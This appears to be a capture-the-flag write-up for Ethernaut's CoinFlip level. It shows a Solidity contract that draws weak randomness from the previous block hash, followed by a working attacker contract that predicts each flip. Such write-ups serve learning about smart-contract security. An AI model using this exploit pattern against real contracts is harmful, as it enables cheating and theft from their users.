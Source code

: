 ### Description:

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above in the top right corner menu, section "Beyond the console"

### Contract

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```


### Exploitation
```js
contract HackFlip {

CoinFlip private immutable target;

uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

constructor(address _target){

target = CoinFlip(_target);

}

  

function flip() external {

bool guess = _guess();

require(target.flip(guess), "Failed!!!");

}

function _guess() private view returns (bool) {

uint256 blockValue = uint256(blockhash(block.number - 1));

uint256 coinFlip = blockValue / FACTOR;

bool side = coinFlip == 1 ? true : false;

return side;

}

}
```